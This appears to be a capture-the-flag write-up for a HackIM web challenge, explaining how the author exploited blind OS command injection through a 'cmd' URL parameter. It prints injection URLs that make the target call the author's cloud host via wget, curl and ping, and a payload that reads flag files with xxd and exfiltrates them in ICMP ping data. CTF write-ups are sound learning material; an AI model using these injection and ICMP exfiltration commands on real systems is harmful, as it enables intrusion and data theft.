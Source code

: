 ## HACKIM8 - Web 3 - Blind OS command injection

In this interesting challenge, application is taking user input and passes it to a application code that runs a task on the underlying server. I have tried to execute simple OS commands but I could not able to see any response so immediately I have started my EC2 amazon server and force vulnerable app to send a request to my cloud server. I have tried below commands: 
   
      http://54.89.146.217/index.php?cmd=wget%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com
      http://54.89.146.217/index.php?cmd=curl%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com
 
 None of the above command worked for me. Either application was filtering word like wget, curl or it was not allowing any outbound connection however the last try worked for me and that was ping command:
 
      http://54.89.146.217/index.php?cmd=ping%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com

I have started tcpdump on my cloud server and I was able to see ICMP packets.

![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/packet_1.PNG "Optional Title") 

I took the advantage of ping command I have tried to check if hping3 or scappy were installed on linux box but unfortunately none of them were present on server as I was not able to see any ICMP requests for below condition: 
       
       http://54.89.146.217/index.php?cmd=if test -e "/usr/bin/Scapy";then ping -c2 http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com;fi;
       http://54.89.146.217/index.php?cmd=if test -e "/usr/sbin/hping3";then ping -c2 ec2-35-166-203-92.us-west-2.compute.amazonaws.com;fi;

Alright so after spending enought time, I was able to figure out below important points:

- OS Commands were being executed on the server side but it was not reflecting back in response. 
- Server was also not accepting few utilities/commands like `wget`,`hping3`,`Scapy`,`curl`,`http` and many more however it was accepting ping command so I need to read the flag file using some command and send that flag to my server through ICMP packet.

Before I execute any command blindly on CTF server, I thought to send few ICMP packets with some data from my local system to my cloud server.  

![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/ping_req.PNG "Optional Title") 

And immediatelly I was able to see "Hello World" in ICMP packet

![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/hello.PNG "Optional Title")


I quickly crafted command which will first read flag1 file and send that through ICMP packet. Below was my final attempt to read flagpart1.txt file:
 
    http://54.89.146.217/index.php?cmd=ping ec2-35-166-203-92.us-west-2.compute.amazonaws.com -p $(xxd -p /home/nullcon/flagpart1.txt)

Reading ICMP packets on my server using tcpdump
   
  ![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/flag1.PNG "Optional Title") 

Flag 1 from flagpart1.txt was '0omgth4t'. 

Reading flagpart2.txt file: 
   
    http://54.89.146.217/index.php?cmd=ping ec2-35-166-203-92.us-west-2.compute.amazonaws.com -p $(xxd -p /home/nullcon/flagpart2.txt)

Reading ICMP packets on my server using tcpdump

   ![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/flag2.PNG "Optional Title") 

Flag 2 from flagpart2.txt was 'aniceflag'. 
   
and our final flag(flagpart1+flagpart2) is
   
      flag{0omgth4taniceflag}
    
## Credits
- Sanjog Panda
- Archita Aparichita
- Pratap Chandra
- Chandrakant Nial
- Swaroop Yermalkar


